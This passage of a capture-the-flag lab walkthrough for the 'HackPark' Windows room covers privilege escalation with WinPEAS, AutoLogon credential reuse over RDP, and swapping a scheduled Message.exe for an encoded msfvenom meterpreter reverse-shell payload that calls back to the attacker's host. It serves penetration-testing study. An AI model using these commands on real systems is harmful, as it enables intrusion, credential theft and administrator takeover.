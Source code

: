 Now that we have a stable shell, we wish to escalate privileges. Using `sysinfo` gives us some more information about the Windows machine.

<center>

![ef80725497f42f86fff2a3f0ac010f3d.png](HackPark/_resources/ef80725497f42f86fff2a3f0ac010f3d-1.png)

</center>

The room suggests feeding the output into [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) in order to determine further exploits for privilege escalation. However, this didn't seem to work for me. Instead, we'll use WinPEAS. We download the x64 exe file [from here](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) and we transfer it to the target system. Here, I switched to a Windows shell within meterpreter with `shell powershell` and used the same command we used before.

<center>

![a556bb3bcc0fd6bcf88720ab09fa4b6e.png](HackPark/_resources/a556bb3bcc0fd6bcf88720ab09fa4b6e-1.png)

</center>

We then run winPEASx64.exe. We find some AutoLogon credentials.

<center>

![b295c359179f0979ebbdecbdd843c173.png](HackPark/_resources/b295c359179f0979ebbdecbdd843c173-1.png)

</center>

We saw that port 3389 was open and serving a Microsoft Web Server. We can use this to connect to the machine as administrator. Open a new terminal and use the command `xfreerdp /tls-seclevel:0 /u:Administrator /p:<password> /v:10.10.0.19`.

(Note: I had issues connecting to the Windows machine via RDP; a bit of Googling suggested modifying the tls-seclevel parameter. The above parameter worked for me, although I'm not sure why.)

After RDPing into the machine, we have root access. The root flag is found on the desktop.

<center>

![e0b4da138dfc97dec15f63bb7e4141cc.png](HackPark/_resources/e0b4da138dfc97dec15f63bb7e4141cc-1.png)

</center>

Similarly, we can navigate to Jeff's desktop to obtain his flag.

<center>

![b7a8c407998e463c4527ee3e432c1a3c.png](HackPark/_resources/b7a8c407998e463c4527ee3e432c1a3c-1.png)

</center>

Alternatively, we can follow the intended path given in Task 4 of the room. Sifting through the winPEAS output, we eventually find an abnormal service running on the Windows machine.

<center>

![6b5ec3c6fd6524ee0e3fcd0fa2f10dae.png](HackPark/_resources/6b5ec3c6fd6524ee0e3fcd0fa2f10dae-1.png)

</center>

It seems that something is happening with the Windows Scheduler service. We caught a glimpse of this when we RDP'd into the machine; every minute or so, a strange message pops up. Within our netcat session, we navigate to `C:\Program Files (x86)\SystemScheduler` and run `tasklist /v` to see a list of currently running tasks. We note that the file `Message.exe` seems to be sheduled.

<center>

![47cc8dde9b28889cfdc4f0f59e13b6a7.png](HackPark/_resources/47cc8dde9b28889cfdc4f0f59e13b6a7-1.png)

</center>

Our goal is to replace this file with our msfvenom payload in order to spawn a reverse shell. We use the same command as before to generate the payload, making sure to use a different port this time.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.30.43 LPORT=9998 -f exe -o Message.exe 
```

Now repeat the steps from the previous task by setting up a Metasploit handler: Delete the old Message.exe file with `del /f Message.exe`, upload the new Message.exe payload to the target system, and wait for the task to execute. Since the system scheduler runs with admin privileges, this gives us a reverse shell with elevated privileges which we can use to access the two needed flags. Now we can navigate to the relevant folders within the meterpreter shell to find the flags.

<center>

![cf3e3caf2dcae4113c340614d619b940.png](HackPark/_resources/cf3e3caf2dcae4113c340614d619b940-1.png)

![5388252d3f95cf1883f78afa49146da9.png](HackPark/_resources/5388252d3f95cf1883f78afa49146da9-1.png)

</center>

To finish the room, we just need to find the original install time. This type of information can be found in the winPEAS output. The correct date and time turns out to be the same as the last time the Administrator's password was reset.

<center>

![06e783f7ae4b055418e0574d50c22ff6.png](HackPark/_resources/06e783f7ae4b055418e0574d50c22ff6-1.png)

</center>